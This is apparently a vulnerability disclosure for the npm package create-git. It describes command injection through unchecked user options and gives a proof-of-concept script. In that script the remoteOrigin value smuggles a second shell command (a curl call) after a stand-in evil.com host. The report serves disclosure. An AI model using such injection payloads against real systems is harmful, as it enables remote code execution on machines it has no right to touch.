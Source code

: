 ## Vulnerability Description
The issue arises because some `user supplied` inputs are formatted inside commands executed lately without any check. Issue arises on this line: https://github.com/wesleytodd/create-git/blob/master/index.js#L85

## POC

```js
// poc.js
const createGit = require('create-git')
 
createGit({
    ignoreExisting: true,
    initialCommitMessage: 'test',
    remoteOrigin: 'http://evil.com || curl "http://localhost/RCE"',
    ignoreTemplates: ['Node.gitignore']
  })
```

## Impact
`RCE` via `insecure command formatting` on `create-git`

